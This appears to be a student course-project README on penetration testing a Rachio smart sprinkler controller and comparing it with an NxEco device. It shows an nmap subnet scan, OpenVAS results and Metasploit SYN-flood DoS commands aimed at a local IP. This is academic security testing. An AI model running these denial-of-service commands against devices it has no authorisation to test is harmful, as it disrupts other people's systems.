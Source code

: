 # UCLA ECE 209AS: Special Topics in Circuits and Embedded Systems
Hacking Rachio, the Smart WiFi Sprinkler Controller

## What is Rachio?
Rachio is the Smart Sprinkler Controller that gives you control of your sprinklers and watering bill, right from your smart phone.
![Rachio](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio.jpg?raw=true)
## Security Attack Model Navigation
We navigated security attack models of Rachio following the guidance of 
### Hardware  
- Serial ports exposed  
- Insecure authentication mechanism used in the serial ports  
- Ability to dump the firmware over JTAG or via Flash chips  

**Attempt**: Access to the circuit board.  
**Result**: Failed. The device is well packaged with no screws. The only way to open it is smashing the shell. But we don’t have proper tools to do so.  
![Rachio well encasulated]()

### Firmware
- Ability to modify firmware  
- Hardcoded sensitive values in the  firmware—API keys,
passwords, staging URLs, etc.  
- Ability to understand the entire functionality of the device
through the firmware  
- File system extraction from the firmware  

**Attempt**: Download from official website.  
**Result**: Failed. Refuse to provide.  

**Attempt**: Draw from hardware.  
**Result**: Failed. Due to the same reason in hardware part.  


### Penetration Testing 

In our Penetration testing, we compared Rachio with NxEco, another popular smart sprinkle device. We conducted our test under the same WIFI. Based on this condition, we did reconnaissance on the devices and tried to find infomation about OS of the devices. Then we did vulunrability analysis with OpenVAS and found a potential vulunrability that the devices are using tcp connection that may be attacked by DoS(Denial of Service). Finally we executed a DoS attack to see if the vulunrability exists.
Here are the implementations.

**Port Scanning**
- Metasploit Nmap  


```
root@kali:~# nmap -v -sV -oA port_scanning 192.168.1.0/29
```

- Results  

NxEco  

![nxeco_scan](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_scan.png?raw=true)

Rachio  

![rachio_scan](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_scan.png?raw=true)

**Vulunrablity Analysis**
- OpenVAS

- Results  

NxEco  

![nxeco_edit](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_edit.png?raw=true)

![nxeco_results](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco.png?raw=true)

Rachio  

![rachio_edit](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_edit.png?raw=true)

![rachio_results](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio.png?raw=true)


**DoS Attack**
- Metasploit auxiliary module attack

```
msf > use auxiliary/dos/tcp/synflood 
msf auxiliary(dos/tcp/synflood) > set RHOST 192.168.1.9
RHOST => 192.168.1.9
msf auxiliary(dos/tcp/synflood) > run
```
*Results  

NxEco  

![nxeco_flood](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_flood.png?raw=true)

Rachio  

![rachio_flood](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_flood.png?raw=true)


### Mobile application
- Reverse engineering the mobile app  
- Dumping source code of the mobile application  
- Side channel data leakage  
- Runtime manipulation attacks  
- Insecure network communication  
- Outdated 3rd party libraries and SDKs  
**Attempt**:
Analyze the Android app.

## Timeline
XXX
  
## Reference
【1】IoT Hackers Handbook: An ultimate guide to hacking the Internet of Things
【2】https://www.kali.org/
